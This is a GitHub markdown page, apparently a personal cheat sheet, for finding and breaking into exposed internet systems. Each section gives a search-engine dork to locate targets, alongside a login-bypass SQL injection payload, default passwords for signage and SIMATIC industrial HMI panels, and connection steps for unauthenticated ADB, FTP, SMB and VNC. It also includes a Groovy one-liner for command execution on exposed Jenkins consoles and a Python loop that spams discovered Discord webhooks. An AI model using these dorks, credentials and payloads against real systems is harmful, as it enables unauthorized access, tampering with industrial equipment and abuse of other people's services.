 # Table of contents
* [Admin login panels vulnerable to SQLi](https://github.com/komodoooo/Some-things/blob/main/papers.md#Admin-login-panels-vulnerable-to-SQLi)
* [Algo hardcoded password](https://github.com/komodoooo/Some-things/blob/main/papers.md#Algo-hardcoded-password)
* [Android debug bridge misconfiguration](https://github.com/komodoooo/Some-things/blob/main/papers.md#Android-debug-bridge-misconfiguration)
* [Find exposed discord webhooks](https://github.com/komodoooo/Some-things/blob/main/papers.md#Find-exposed-discord-webhooks)
* [FTP servers with anonymous login allowed ](https://github.com/komodoooo/Some-things/blob/main/papers.md#FTP-servers-with-anonymous-login-allowed)
* [Jenkins code execution](https://github.com/komodoooo/Some-things/blob/main/papers.md#Jenkins-code-execution)
* [LG Signage default credentials](https://github.com/komodoooo/Some-things/blob/main/papers.md#LG-Signage-default-credentials)
* [SIMATIC HMI_Panel default credentials](https://github.com/komodoooo/Some-things/blob/main/papers.md#SIMATIC-HMI_Panel-default-credentials)
* [SMB server misconfiguration](https://github.com/komodoooo/Some-things/blob/main/papers.md#SMB-server-misconfiguration)
* [VNC Servers with auth disabled](https://github.com/komodoooo/Some-things/blob/main/papers.md#VNC-Servers-with-auth-disabled)
<br><br>_"A bit of my experience about messing around on the internet"_<br><br>
# Admin login panels vulnerable to SQLi
Payload: _`1'or'1'='1`_
### Google dork
[`intitle:"Login" inurl:/admin/index.php`](https://www.google.com/search?q=intitle%3A%22Login%22+inurl%3A%2Fadmin%2Findex.php)
# Algo hardcoded password
### Login
Default password: _`algo`_
### Shodan query
[`http.favicon.hash:-1024590169`](https://www.shodan.io/search?query=http.favicon.hash%3A-1024590169)
# Android debug bridge misconfiguration
### installing ADB
Debian: `apt install android-tools`

Arch: `pacman -S android-tools`
### Connect to ADB device
**Use [this bash script](https://github.com/komodoooo/Some-things/blob/main/tools/adb/adb.sh)** or connect manually (default port is 5555)
### Shodan query
[`"Android debug bridge (ADB)" -Authentication`](https://www.shodan.io/search?query=%22Android+debug+bridge+%28ADB%29%22+-Authentication)
# Find exposed discord webhooks
Simplest way to spam into a webhook in python:
```py
while True: __import__("requests").post("<webhook>", data={"content":"@here hey"})
```
### Zoomeye dork
[`"https://discord.com/api/webhooks/"`](https://www.zoomeye.org/searchResult?q=%22https%5C%3A%2F%2Fdiscord.com%2Fapi%2Fwebhooks%2F%22)
#### But... Can i automate this?
The answer is obviously yes, i made [this](https://github.com/komodoooo/discord-stuff/blob/main/src/zw.py) script.
# FTP servers with anonymous login allowed 
Username: _`anonymous`_

Password: _`guest`_
### Shodan query
[`port:21 "Login successful" "FTP server ready"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22+%22FTP+server+ready%22)
[`port:21 "Login successful"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22)
## Find exposed ftp servers on google
### Google dork
[`intitle:"index of" inurl:ftp`](https://www.google.com/search?q=intitle%3A%22index+of%22+inurl%3Aftp)
# Jenkins code execution
Select _`Manage Jenkins` > `Console Script`_ (Generally **/script** or **/manage/script**)

Groovy oneliner for injecting system commands:

```groovy
println("<your cmd>".execute().text)
```
###  Zoomeye dork
[`title:"Dashboard [Jenkins]"+"Manage jenkins"`](https://www.zoomeye.org/searchResult?q=title%3A%22Dashboard%20%5BJenkins%5D%22%2B%22Manage%20jenkins%22)
# LG Signage default credentials
### Login
Default password: _`00000000`_
### Zoomeye dork
[`iconhash:79487298 && title:"LG Signage"`](https://www.zoomeye.org/searchResult?q=iconhash%3A79487298%20title%3A%22LG%20Signage%22&t=all)
# SIMATIC HMI_Panel default credentials
### Login
Default username: _`Administrator`_

Default password: _`100`_
### Google dork
[`intitle:"Miniweb Start Page"`](https://www.google.com/search?q=intitle%3A%E2%80%9DMiniweb+Start+Page%E2%80%9D)
# SMB server misconfiguration
### installing smbclient
Debian: `apt install samba`

Arch: `pacman -S smbclient`
### login in to misconfigurated server
`smbclient -N \\\\{address}\\Users`
### Shodan query
[`port:445 "Authentication: disabled" "Users"`](https://www.shodan.io/search?query=port%3A445+%22Authentication%3A+disabled%22+%22Users%22)
# VNC Servers with auth disabled
Download **[Vnc viewer](https://www.realvnc.com/en/connect/download/viewer/)**
Insert the IP address and port (default is 5900) and connect,

select ok when unencrypted connection warning appears.
### Shodan query
[`hash:1569903015`](https://www.shodan.io/search?query=hash%3A1569903015)

